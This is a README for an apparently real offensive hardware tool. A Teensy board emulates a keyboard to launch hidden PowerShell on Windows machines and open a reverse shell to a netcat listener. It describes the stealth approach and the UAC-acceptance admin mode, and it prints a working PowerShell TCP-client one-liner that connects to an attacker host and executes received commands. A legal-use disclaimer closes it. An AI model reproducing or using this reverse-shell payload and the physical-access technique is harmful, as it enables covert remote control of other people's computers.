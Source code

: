 # Pwnsy
Penetration Testing Tool for Windows 7 -> 10

Idea : Peensy (Offensive Security)  
Thanks to : @samratashok for the tiny (~280 characters) PowerShell TCP Client

## What does it do
It allows to execute a reverse shell on any Windows machine with PowerShell enabled within a minimal  
amount of time, and in a stealthy manner. 

## How does it works
It uses the abilities of the Teensy boards to deploy a small powershell script, using keyboard emulation.  
The goal of this project was to find a way to launch a TCP Client that would connect to a netcat listener.  

To make it as stealthy as possible, we use the "Run" window, that can be accessed by pressing Windows +R.  
Tho, the amount of text is limited to 260 characters. So we need to run a PowerShell prompt in "Hidden"  
windowstyle, and pass the commands to execute a TCP client. Unfortunately there isn't enough place to  
make the client respond to the commands sent by the netcat listener within 260 chars. 

The solution is to wait for the netcat listener to send the complete version of the TCP Client and execute it.  
That way we can have feedback from a distant machine of what's happening on commands execution sent from the server.  

In case you need an elevated PowerShell prompt to execute script from the server, there is an admin mode  
that will run PowerShell as admin and wait for a button to be pressed to accept the UAC prompt if there is one.  
That way, it's reliable and we don't have to pray for it to pop within a fixed amount of time (no hardcoded delays involved).  

1. Hardware required
   - A Teensy board (2.0 up to 3.6)
   - Switch buttons (3) to configure the different modes without compiling it every time
   - A test PCB to put those
   
What are the buttons doing? 

Button 1. Start typing after the keyboard is ready  
Button 2. Accept the UAC prompt if there is the need to  
Button 3. Admin mode (that will modify the command typed in the Run window in order to execute an elevated  
PowerShell prompt, then wait for the button 2 to be pressed in order to continue)  

## What do I need to setup (Server side)
Simply run netcat on linux, like this :  
`netcat -l -p 1337`

I advice you to run it inside of a loop in bash, so you can exit it with Ctrl+C, because that's needed if you  
send another version of the TCP Client to the client (if you use -k netcat will close when you hit Ctrl+C)  

Once you recieve a connexion, push the complete TCP Client to the client so you can have feedback
on what you execute :  
```  
$b=[text.encoding]::UTF8;while(1){try{;$u=(New-Object Net.Sockets.TCPClient("0.0.0.0",1337)).GetStream();$w=New-Object byte[] 65535;while(($i=$u.Read($w,0,$w.Length)) -ne 0){$d=$b.GetString($w,0,$i);$v=$b.GetBytes((iex $d 2>&1|Out-String));$u.Write($v,0,$v.Length)}}catch{}}
```  
(don't forget to replace the IP and port to fit your situation) 

Restart your netcat listener so the new client version can connect to your port  
Done! You can execute any PowerShell command and get the output in your netcat listener!

## Demo : 
[![5 Seconds Reverse Shell](https://img.youtube.com/vi/8NpX56rHsYY/0.jpg)](https://www.youtube.com/watch?v=8NpX56rHsYY)

## Example of Post-Exploitation payload : 
[![Screenshot Retrieval from Reverse Shell](https://img.youtube.com/vi/HPO-l4Br-zY/0.jpg)](https://www.youtube.com/watch?v=HPO-l4Br-zY)

### Notes
Intended for legal usage ONLY, I'm not liable for anything you do with this code.  
Feel free to give feedback and ideas in order to improve it!
